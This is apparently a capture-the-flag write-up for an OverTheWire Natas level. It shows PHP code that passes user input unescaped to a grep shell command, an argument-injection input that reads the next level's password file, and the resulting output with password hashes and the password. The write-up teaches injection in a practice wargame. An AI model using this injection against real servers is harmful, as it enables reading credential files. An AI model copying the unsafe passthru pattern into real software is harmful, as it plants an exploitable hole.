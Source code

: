 ```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Since it blocks us from using `;`, we can see that the key input is before dictionary.txt and from previous challenges, we know the flag will be in `/etc/natas_webpass/natasXX` so with grep we can check multiple files like `grep -i term file1 file2 file3`, so our key can just be the file we want to check.. term will be what we search for, so with some regex for any line `.*` we can use:

`.* /etc/natas_webpass/natas11`

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
```

There's our next password!

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`